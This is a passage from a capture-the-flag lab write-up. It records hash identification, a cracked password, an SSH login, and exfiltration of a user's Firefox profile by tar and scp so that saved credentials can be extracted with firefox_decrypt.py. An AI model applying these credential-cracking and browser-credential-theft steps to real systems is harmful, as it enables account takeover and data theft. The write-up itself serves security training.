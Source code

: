 ```bash
5A5749F309CAC33B27BA94EE02168FA3C3E7A3E9

Most Likely
SHA-1, HC: 100 JtR: raw-sha1 Summary: Used for checksums.See more
HMAC-SHA1 (key = $salt), HC: 160 JtR: hmac-sha1
Haval-128, JtR: haval-128-4
RIPEMD-128, JtR: ripemd-128
```

John won't crack it but Crackstation hash it as _elliot123_

![crack](../../../assets/images/ctfs/proving_grounds/insanity_hosting/crack.png)

We can SSH with the creds _elliot:elliot123_

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/insanityhosting]
└─$ ssh elliot@192.168.202.124
elliot@192.168.202.124's password:
[elliot@insanityhosting ~]$ id
uid=1003(elliot) gid=1003(elliot) groups=1003(elliot)

```

# Post-Exploitation

---

## Enumerate /home/elliot

There is a _.mozilla_ directory we can maybe get creds from.

Tar the directory and transfer to our attack machine.

```bash

# Tar the entire .mozilla directory
[elliot@insanityhosting ~]$ tar -czf mozilla.tgz .mozilla/

# Netcat not available so use SCP to transfer to attack box
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/insanityhosting]
└─$ scp elliot@192.168.202.124:mozilla.tgz .
elliot@192.168.202.124s password:
mozilla.tgz                                                           100%   40MB   1.9MB/s   00:21

# Extract the files
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/insanityhosting]
└─$ tar -xzf mozilla.tgz


```

We'll use the _firefox_decrypt.py_ script to extract any credentials in the Mozilla files.

